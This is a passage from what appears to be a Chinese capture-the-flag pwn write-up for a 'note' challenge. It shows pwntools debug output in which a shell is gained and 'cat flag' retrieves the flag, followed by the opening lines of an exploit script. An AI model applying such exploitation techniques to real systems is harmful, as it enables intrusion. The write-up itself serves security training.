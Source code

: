 ![](https://github.com/1094093288/IMG/blob/master/Pwn/PwnWriteup/xiangyunbei2021/assets/5.png)

此时也成功的获得了shell。
```bash
[DEBUG] Received 0x6 bytes:
    'size: '
[DEBUG] Sent 0x3 bytes:
    '24\n'
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x2a bytes:
    'flag{v56fdv6fd1v5f6v6fdb5b465vbdshjgvbfv}\n'
[*] Stopped process './note' (pid 43224)
[+] The flag is flag{v56fdv6fd1v5f6v6fdb5b465vbdshjgvbfv}
```
# exp
```python
import logging
from pwn import *
elf = None
libc = None
file_name = "./note"
context.terminal = ['tmux', 'sp', '-h']
# context.timeout = 1
```